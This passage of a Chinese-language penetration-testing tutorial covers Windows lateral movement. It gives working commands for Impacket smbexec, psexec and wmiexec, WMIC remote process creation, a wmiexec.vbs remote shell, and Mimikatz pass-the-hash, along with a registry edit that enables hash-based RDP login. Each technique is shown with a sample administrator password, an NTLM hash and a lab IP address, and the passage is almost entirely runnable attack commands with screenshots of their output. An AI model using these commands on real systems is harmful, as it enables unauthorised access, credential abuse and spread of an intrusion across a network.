 使用第三方Impacket工具包中的smbexec和psexec（使用方法同官方一致）  
使用Impacket第三方PsExec，命令与官方的一致：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-6a68904b020c15fcf08a5d14cfb0db9f.png)  
使用Impacket第三方Smbexec：  
Smbexec test/Administrator:zxcvbnm123@192.168.202.148  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-6af899e96993b0f0fc82bbb921821efb.png)  
Smbexec -hashes :fac5d668099409cb6fa223a32ea493b6 test/Administrator@192.168.202.148  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-a6cb13df2f43198584f875fec78a508b.png)

## 3.3 利用WMI服务进行横向移动

WMI利用135端口，支持明文和hash两种方式进行身份验证，且系统日志不记录。  
第一种：使用系统自带的WMIC明文传递执行相应命令，但执行的结果不回显（先管理员账户登录）  
Wmic /node:192.168.202.148 /user:Administrator /password:zxcvbnm123 process call create “cmd.exe /c ipconfig >C:/1.txt”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-53a60167e8f42943feafb21ebc8b7a23.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-bd888d4438a2407c9943332b99898d3b.png)

第二种：使用系统自带cscript明文传递执行反弹shell，执行结果有回显，现已被杀  
Cscript //nologo wmiexec.vbs /shell 192.168.202.148 Administrator zxcvbnm123

第三种：使用第三方impacket套件中的Wmiexec进行明文或hash传递，执行结果有回显  
Wmiexec test/Administrator:zxcvbnm123@192.168.202.148 “whoami”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-441230fdedea3cc6aa10c95814f77dee.png)  
Wmiexec -hashes :fac5d668099409cb6fa223a32ea493b6 test/Administrator@192.168.202.148 “whoami”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-e7404225c582ad541c7e8074678708e9.png)

## 3.4利用Mimikatz进行PTH

PTH是攻击者通过LM Hash和NTLM Hash访问远程主机或服务，不需提供明文密码。当禁用了NTLM Hash验证时，不能使用PsExec进行Hash传递，mimikatz还是可以。  
Privilege::debug  
Sekurlsa::pth /user:Administrator /domain:test /ntlm:fac5d668099409cb6fa223a32ea493b6  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-33b113fd665dd112e141180bf61c706e.png)  
关于KB22871997是否能防护PTH攻击？  
Pth：没有打补丁时，任何用户都可以连接，打了补丁只能administrator连接  
Ptk：打了补丁后，用户才能可以连接，采用aes256连接

## 3.5 利用RDP进行横向移动

1、使用明文密码连接RDP  
Windows: Mstsc.exe /console /v:192.168.202.148 /admin  
Linux: rdesktop 192.168.202.148:3389  
2、使用hash连接RDP  
使用hash 连接需要Restricted Admin mode开启，Windows server 2012默认开启了，windows server 2008需要安装2871997、2973351补丁后，执行下面命令：  
REG ADD “HKLM\\System\\CurrentControlSet\\Control\\Lsa” /v DisableRestrictedAdmin /t REG\_DWORD /d 00000000 /f  
当开启后就能使用mimikatz进行hash连接RDP：  
Privilege::debug  
Sekurlsa::pth /user:Administrator /domain:test /ntlm:fac5d668099409cb6fa223a32ea493b6 “/run:mstsc.exe /restrictedadmin”
